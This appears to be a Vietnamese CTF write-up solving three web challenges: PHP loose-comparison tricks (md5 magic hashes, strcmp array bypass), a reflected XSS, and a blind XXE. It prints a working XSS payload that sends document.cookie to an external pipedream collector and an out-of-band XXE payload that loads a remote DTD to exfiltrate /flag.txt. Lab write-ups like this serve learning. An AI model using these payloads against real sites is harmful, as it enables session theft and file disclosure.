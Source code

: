 # WEB

## Phpri Phprai

Đề bài: http://47.254.251.2:8889

Source code: 
```
<?php
    include 'config.php';
    show_source("index.php");
    error_reporting(0);
    if(isset($_GET["1"]) && isset($_GET["2"])) {
        $str1 = $_GET["1"];
        $str2 = $_GET["2"];
        if(($str1 !== $str2) && (md5($str1) == md5($str2))) {
            echo $flag1;
        }
    }
    if(isset($_GET["3"])) {
        if( strcmp( $_GET['3'], $$flag ) == 0) {
            echo $flag2;
        }
    }
    if(isset($_GET["4"])) {
        $str4 = $_GET["4"];
        $str4=trim($str4);
        if($str4 == '1.4e5' && $str4 !== '1.4e5') {
            echo $flag3;
        }
    }
    if(isset($_GET["5"])) {
        $str5 = $_GET["5"];
        if($str5 == 69 && $str5 !== '69' && $str5 !== 69 && strlen(trim($str5)) == 2) {
            echo $flag4;
        }
    }
    if(isset($_GET["6"])) {
        $str6 = $_GET["6"];
        $var1 = 'KaCeEtCe';
        $var2 = preg_replace("/$var1/", '', $str6);
        if($var1 === $var2) {
            echo $flag5;
        }
    }
?>
```

Flag được chia thành 5 phần:

**Flag1**: Ta cần tìm 2 chuỗi giá trị khác nhau nhưng hash md5 bằng nhau. 

Ở đây ta có 2 cách: 

Cách 1 là nhập vào 2 mảng: 1[] = a và 2[] = b sao cho a và b là 2 giá trị khác nhau. Khi đó nó trở thành: $_GET["1"] = array([0] => a) và $_GET["2"] = array([0] => b), khi hash md5 1 array thì kết quả trả về Null, nên so sánh 2 giá trị hash là bằng nhau. 

Cách 2 là search google với keyword md5 hash collision và tìm thấy 2 chuỗi `240610708` và `QNKCDZO` cho ra giá trị băm md5 được so sánh == là giống nhau. Do khi hash md5 2 giá trị này nó ra dạng 0e..., chúng cùng = int(0) nên với so sánh lỏng lẻo (==) thì 2 giá trị này bằng nhau. 

=> Payload1: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO

Nhận được Flag1: `KCSC{B0_u_Bu_S4`

**Flag2**: Ta cần tìm 1 chuỗi sao cho so sánh (strcmp()) với $flag là giống nhau
Flag chỉ gồm 5 phần từ $flag1-5 nên $flag khả năng mang giá trị rỗng, nên mình thử nhập ?3='' thì ra luôn flag2. Ngoài ra, ta có thể dùng nhập mảng rỗng hoặc không nhập gì cũng cho ra flag2. 

=> Payload2: http://47.254.251.2:8889/?3[]=''

Nhận được Flag2: `C_8usssssss_htt`

**Flag3**: Ta cần tìm chuỗi sao cho khác 1.4e5 nhưng so sánh lỏng lẻo (==) thì bằng 1.4e5

Ở đây 1.4e5 = 1.4*10^5 nên ta có thể thay thành 0.14e6, 14e4, 140e3, 1400e2,... đều ra được flag3.

=> Payload3: http://47.254.251.2:8889/?4=14e4

Nhận được Flag3: `ps://www.youtub`

**Flag4**: Tương tự flag trước, ta cần tìm 1 chuỗi sao cho khác 69 nhưng so sánh lỏng lẻo (==) thì bằng 69 và độ dài chuỗi sau khi loại bỏ ký tự space trái phải bằng 2.

Ta nhập thêm 1 ký tự space vào trước 69 và URL Encode thành %2069 là thỏa mãn yêu cầu

=> Payload4: http://47.254.251.2:8889/?5=%2069

Nhận được Flag4: `e.com/watch?v=x`

**Flag5**: Cần tìm 1 chuỗi sao cho khi preg_replace đi 1 lần KaCeEtCe thì vẫn so sánh bằng tuyệt đối với KaCeEtCe.

Vậy ta chỉ cần chèn KaCeEtCe vào giữa KaCeEtCe là được chuỗi cần tìm

=> Payload5: http://47.254.251.2:8889/?6=KaCeKaCeEtCeEtCe

Nhận được Flag5: `QtC3F8fH6g}`

Payload hoàn chỉnh là: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO&3[]=''&4=14e4&5=%2069&6=KaCeKaCeEtCeEtCe

Flag: `KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}`


** 2 bài bên dưới mình chưa solve được trong thời gian diễn ra do mình chưa biết đến RequestBin của Pipedream để thu thập các request trên webhook và mình mới tìm hiểu về web exploitation khoảng vài tháng gần đây. Tuy nhiên mình biết đúng payload để exploit và sau khi kết thúc giải, mình xem writeup của 1 số bạn và hoàn thành 2 chall này =(( **

## Hi Hi Hi

Đề bài: http://146.190.115.228:20109/

Web có chức năng nhập vào 1 message lời chúc và hiển thị message đó lên trang web. Bên dưới là chức năng gửi report tới localhost của Webserver. 

![image](https://user-images.githubusercontent.com/80137840/213621541-2e31e7bc-eaa7-45c8-ac11-e187636f29b8.png)

Khả năng web bị dính XSS. Thử nhập 'abc' ta thấy message được hiển thị trong thẻ div

![image](https://user-images.githubusercontent.com/80137840/213621798-cc399b9b-cc64-482e-831b-5625caba4fa7.png)

Thử 1 số payload XSS thì web bị XSS với payload đơn giản: `<svg onload=alert('XSS')>`

![image](https://user-images.githubusercontent.com/80137840/213622177-11686f14-2bb1-4d60-8294-fc1cd46bae82.png)

Khai thác XSS lấy cookie bằng cách gửi message report tới Server với payload như sau:

`http://127.0.0.1:13337/?message=<svg%20onload="window.location=%27https://eolqec95un0vjzg.m.pipedream.net/?cookie=%27%2B(document.cookie)">`

![image](https://user-images.githubusercontent.com/80137840/213625305-3fd8f1dc-9520-47a9-8ef0-5df99b9644bd.png)
    
Và nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213625487-a173ebe1-2f87-4566-8f4f-cb989c99a5e8.png)

Flag: `KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}`
    
    

## XXD

Đề bài: http://146.190.115.228:13373/

Bài này cho 1 form nhập thông tin và Submit

![image](https://user-images.githubusercontent.com/80137840/213668883-c8f23281-cc5b-45cd-ac0a-a735ac4c7531.png)

Thử nhập thông tin và kiểm tra request submit

![image](https://user-images.githubusercontent.com/80137840/213671848-f3b11c8d-224e-4d05-8a45-37299b768a52.png)

Thông tin được gửi đi dưới dạng XML nên khả năng là lỗi XXE. Ngoài ra, response trả về có status = 1 nên đây là blind XXE.

Sau khi thử 1 vài payload trên [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) thì mình thấy có 1 payload khai thác thành công là [XXE OOB with DTD and PHP filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter)

Tạo DTD trên pastebin với flag location là /flag.txt: [maliciousDTD](https://pastebin.com/raw/wUE4Wbyb)

![image](https://user-images.githubusercontent.com/80137840/213678940-a304069f-2215-4c27-b1f6-c7c88a5882d2.png)

Inject đoạn XML vào request gửi lên Server:

```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/wUE4Wbyb">
%sp;
%param1;
]>
<r>&exfil;</r>
```

![image](https://user-images.githubusercontent.com/80137840/213679485-4bf7c812-f132-42c1-a8db-aed83a167b0a.png)

Và nhận được nội dung file /flag.txt

![image](https://user-images.githubusercontent.com/80137840/213679703-e43d62f7-442f-4ffe-9889-08eeaac4b31d.png)

Decode base64 ta nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213679811-7b8587dd-8c4c-43b2-993a-7bf987ac401d.png)

Flag: `KCSC{blind_xxD_xxO_xx]_xxe!!@#@}`
